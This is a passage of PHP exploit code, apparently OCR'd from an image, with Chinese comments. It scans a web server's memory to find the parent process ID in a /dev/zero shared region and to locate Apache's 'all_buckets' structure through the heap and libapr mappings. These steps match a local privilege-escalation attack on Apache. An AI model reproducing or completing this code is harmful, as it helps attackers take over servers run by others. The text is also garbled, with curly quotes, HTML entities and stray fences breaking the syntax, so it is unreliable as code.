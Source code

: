 ```
//因为parent数组，总是位于第一个/dev/zero中，所以，我们只搜索第一个

echo “/dev/zero start addr:0x”.dechex($shm_region[0][0])."\n";

echo “/dev/zero end addr:0x”.dechex($shm_region[0][1])."\n";

```
for($i =0;$i&lt;4096;$i++){
    $pid = read_mem_dword($shm_region[0][0]+$i);//pid_t在我的环境中，为4字节大小
    if($pid == $my_pid){
        return $shm_region[0][0]+$i;//找到直接返回
    }
}

return 0; 
```

}

//获取all_buckets的地址

function locate_all_buckets_addr()

{

$heap_region = get_mem_region(“heap”);//在我的环境中，all_bucket位于第一个heap中

$libapr_region = get_mem_region(“libapr-”);

if(!count($heap_region) || !count($libapr_region))

return 0;

$heap_start_addr = $heap_region[0][0];

$heap_end_addr = $heap_region[0][1];

```
echo "heap start addr:0x".dechex($heap_start_addr)."\n";
echo "heap end addr:0x".dechex($heap_end_addr)."\n";

$libapr_text_start_addr = 0;
$libapr_data_start_addr = 0;
$libapr_text_end_addr = 0;
$libapr_data_end_addr = 0;
for($i = 0;$i&lt;count($libapr_region);$i++){
    if($libapr_region[$i][2] === "r-xp"){//代码段
        $libapr_text_start_addr = $libapr_region[$i][0];
        $libapr_text_end_addr = $libapr_region[$i][1];
        continue;
    }
